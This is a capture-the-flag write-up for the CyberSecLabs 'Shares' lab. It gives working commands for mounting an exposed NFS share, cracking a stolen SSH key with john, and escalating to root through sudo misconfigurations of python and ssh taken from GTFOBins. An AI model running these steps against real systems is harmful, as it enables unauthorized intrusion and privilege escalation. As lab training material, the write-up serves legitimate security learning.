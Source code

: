 # Solving [CyberSecLabs-Shares](https://www.cyberseclabs.co.uk/labs/info/Shares/)
* [Nmap](https://github.com/nmap/nmap) shows many ports are up but noticable are:
    * `21(ftp)`
    * `80(http apache)`
    * `2049(nfs)`
    * `27853(ssh)`
* Port `21` has no anonymoys access, and also `80` leads to nothing
* [showmount](https://linux.die.net/man/8/showmount) shows `/home/amir` can be publicly mounted from the nfs server
```
showmount -e machine_ip
```
* Mounting `/home/amir` locally with `mount -t nfs machine_ip:/home/amir /mnt`
* `amir` dir has contains `id_rsa`, `id_rsa.pub`, and `id_rsa.bak`
* An [ssh](https://www.ssh.com/ssh/) attempt at port `27853` shows it's password encrypted
* Cracking `id_rsa` with [john](https://github.com/openwall/john) gives the password `h*****` (redacted)
```
ssh2john id_rsa > hash
john --wordlist=/path/to/worlist/rockyou.txt hash
```
* SSH login in the machine as user `amir` using cracked password `h*****`
```bash
ssh -i id_rsa -p 27853 amir@machine_ip
```
* `sudo -l` as user `amir` shows `python3` can be run as user `amy` which gives `access.txt`
```python3
sudo python -c 'import os; os.system("/bin/bash")'
```
* `sudo -l` as user `amy` shows `ssh` can be run as `root` which gives us `system.txt`
```
sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
```
* `priv-esc` commands used above are taken from [GTFObins](https://gtfobins.github.io/)
